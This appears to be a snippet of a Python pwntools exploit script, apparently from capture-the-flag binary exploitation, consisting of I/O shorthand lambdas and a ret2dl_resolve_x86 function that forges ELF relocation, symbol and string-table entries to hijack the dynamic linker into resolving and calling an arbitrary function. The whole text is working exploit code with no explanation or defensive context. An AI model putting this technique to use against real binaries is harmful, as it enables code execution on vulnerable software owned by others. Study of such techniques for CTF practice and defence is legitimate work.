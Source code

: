 ```python

se      = lambda data               :p.send(data) 
sa      = lambda delim,data         :p.sendafter(delim, data)
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(delim, data)
sea     = lambda delim,data         :p.sendafter(delim, data)
rc      = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
uu32    = lambda data               :u32(data.ljust(4, '\0'))
uu64    = lambda data               :u64(data.ljust(8, '\0'))
info_addr = lambda tag, addr        :p.info(tag + ': {:#x}'.format(addr))

def debug(cmd=''):
    if is_local: gdb.attach(p,cmd)

def ret2dl_resolve_x86(ELF_obj,func_name,resolve_addr,fake_stage,do_slim=1):
    jmprel = ELF_obj.dynamic_value_by_tag("DT_JMPREL")#rel_plt
    relent = ELF_obj.dynamic_value_by_tag("DT_RELENT")
    symtab = ELF_obj.dynamic_value_by_tag("DT_SYMTAB")#dynsym
    syment = ELF_obj.dynamic_value_by_tag("DT_SYMENT")
    strtab = ELF_obj.dynamic_value_by_tag("DT_STRTAB")#dynstr
    versym = ELF_obj.dynamic_value_by_tag("DT_VERSYM")#version
    plt0 = ELF_obj.get_section_by_name('.plt').header.sh_addr

    p_name = fake_stage+8-strtab
    len_bypass_version = 8-(len(func_name)+1)%0x8
    sym_addr_offset = fake_stage+8+(len(func_name)+1)+len_bypass_version-symtab

    if sym_addr_offset%0x10 != 0:
        if sym_addr_offset%0x10 == 8:
            len_bypass_version+=8
            sym_addr_offset = fake_stage+8+(len(func_name)+1)+len_bypass_version-symtab
        else:
            error('something error!')

    fake_sym = sym_addr_offset/0x10

    while True:
        fake_ndx = u16(ELF_obj.read(versym+fake_sym*2,2))
        if fake_ndx != 0:
            fake_sym+=1
            len_bypass_version+=0x10
            continue
        else:
            break

    if do_slim:
        slim = len_bypass_version - len_bypass_version%8
        version = len_bypass_version%8
        resolve_data,resolve_call=ret2dl_resolve_x86(ELF_obj,func_name,resolve_addr,fake_stage+slim,0)
        return (resolve_data,resolve_call,fake_stage+slim)

    fake_r_info = fake_sym<<8|0x7
    reloc_offset=fake_stage-jmprel

    resolve_data = p32(resolve_addr)+p32(fake_r_info)+func_name+'\x00'
    resolve_data += 'a'*len_bypass_version
    resolve_data += p32(p_name)+p32(0)+p32(0)+p32(0x12)

    resolve_call = p32(plt0)+p32(reloc_offset)

    return (resolve_data,resolve_call)
```